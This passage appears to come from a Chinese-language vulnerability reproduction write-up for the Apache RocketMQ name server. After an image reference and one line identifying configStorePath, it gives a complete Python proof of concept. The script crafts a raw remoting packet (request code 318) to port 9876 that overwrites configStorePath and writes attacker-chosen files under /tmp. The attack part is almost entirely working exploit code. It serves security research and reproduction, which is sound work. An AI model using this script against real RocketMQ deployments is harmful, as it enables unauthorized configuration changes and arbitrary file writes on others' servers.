![image-20230619171757421](images/9.png)

在namesrv中，这个是configStorePath

### 漏洞复现

```
import socket
import binascii

client = socket.socket()
# you ip
client.connect(('127.0.0.1',9876))
# data
json = '{"code":318,"extFields":{"test":"RockedtMQ"},"flag":0,"language":"JAVA","opaque":266,"serializeTypeCurrentRPC":"JSON","version":433}'.encode('utf-8')
body='brokerConfigPath=/tmp/aaa/CaSO4.txt\nconfigStorePath=/tmp/aaa/DawnT0wn.txt\nkvConfigPath=123\\nMy name is DawnT0wn'.encode('utf-8')
json_lens = int(len(binascii.hexlify(json).decode('utf-8'))/2)
head1 = '00000000'+str(hex(json_lens))[2:]
all_lens = int(4+len(binascii.hexlify(body).decode('utf-8'))/2+json_lens)
head2 = '00000000'+str(hex(all_lens))[2:]
data = head2[-8:]+head1[-8:]+binascii.hexlify(json).decode('utf-8')+binascii.hexlify(body).decode('utf-8')
# send
client.send(bytes.fromhex(data))
data_recv = client.recv(1024)
print(data_recv)
```
